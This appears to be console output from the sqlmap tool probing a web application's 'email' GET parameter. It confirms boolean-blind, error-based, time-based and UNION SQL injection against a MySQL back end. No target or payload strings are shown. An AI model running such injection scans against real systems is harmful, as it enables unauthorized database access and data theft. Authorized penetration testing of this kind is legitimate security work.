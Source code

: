 ```shell

[18:40:50] [INFO] testing connection to the target URL
[18:40:51] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:40:51] [INFO] testing if the target URL content is stable
[18:40:51] [INFO] target URL content is stable
[18:40:51] [INFO] testing if GET parameter 'email' is dynamic
[18:40:51] [INFO] GET parameter 'email' appears to be dynamic
[18:40:51] [WARNING] heuristic (basic) test shows that GET parameter 'email' might not be injectable
[18:40:51] [INFO] testing for SQL injection on GET parameter 'email'
[18:40:51] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:40:51] [WARNING] reflective value(s) found and filtering out
[18:40:52] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[18:40:52] [INFO] GET parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable (with --not-string="81")
[18:40:53] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided risk (1) value? [Y/n] y
[18:40:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:40:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:40:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:40:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:40:57] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:40:57] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:40:57] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:40:57] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:40:57] [INFO] GET parameter 'email' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:40:57] [INFO] testing 'Generic inline queries'
[18:40:57] [INFO] testing 'MySQL inline queries'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:40:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:40:57] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:40:57] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:41:17] [INFO] GET parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:41:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:41:17] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:41:17] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:41:17] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] y
[18:41:28] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[18:41:29] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] yt
[18:41:35] [WARNING] if UNION based SQL injection is not detected, please consider usage of option '--union-char' (e.g. '--union-char=1') and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 
```